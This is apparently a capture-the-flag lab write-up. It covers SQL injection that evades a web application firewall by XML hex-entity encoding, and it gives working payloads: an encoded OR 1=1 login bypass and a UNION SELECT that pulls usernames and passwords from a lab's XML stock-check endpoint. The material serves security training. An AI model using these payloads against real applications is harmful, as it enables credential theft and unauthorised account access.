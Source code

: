 **<h2>Background:</h2>**
SQL injection attacks can sometimes bypass filters by encoding certain characters using XML or Unicode encoding. This approach can evade detection if the application sanitizes input by blocking or escaping standard SQL syntax but doesn’t decode or parse XML-like encodings.

Example Bypasses with XML Encoding
1. Standard SQL Injection Payload

Consider a basic SQL injection payload:

``SELECT * FROM users WHERE username = 'admin' AND password = '';``

This can be converted using XML encoding to bypass filters:
- The single quote ' becomes ``&#x27;`` or ``&#39;``
- ``OR 1=1`` (a common SQL injection condition) becomes ``&#x4F;&#x52;&#x20;&#x31;&#x3D;&#x31;``

The query becomes ``Select * from users where username = 'admin' &#x4F;&#x52; 1=1 --'``.

We can use this in html as:<br>
<code>
``<login>
    <username>admin' &#x4F;&#x52; 1=1 --</username>
    <password>password</password>
</login>``
</code>

**<h2>Problem:</h2>**
This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account. 

**<h2>Solutions:</h2>**
- Look through the application in burp, we can see a POST method for ``/product/stock`` which has XML format body.
![alt text](/images/lab18XMLbody.png)
- When we pass a SQLi query it responds ``"Attack detected"`` so we need to xml encode our payload to bypass this firewall.
- To bypass the firewall we use Hackverter extension available on Burp. Select the query in this case `` 1 UNION SELECT NULL`` and rightclick to extension and encode then hexentities. It will now bypass and return 2 rows.
- Now we have rows number pass in the actual payload to get password ie. `` union select username ||'~' password from users`` and encode it using Hackverter xml format looks like
<code>
``<storeId><@hex_entities>1 union select username || '-' || password from users<@/hex_entities></storeId>``
</code>
And we also get the password
![alt text](/images/lab18output.png)
- Login with administrator credentials to solve the lab
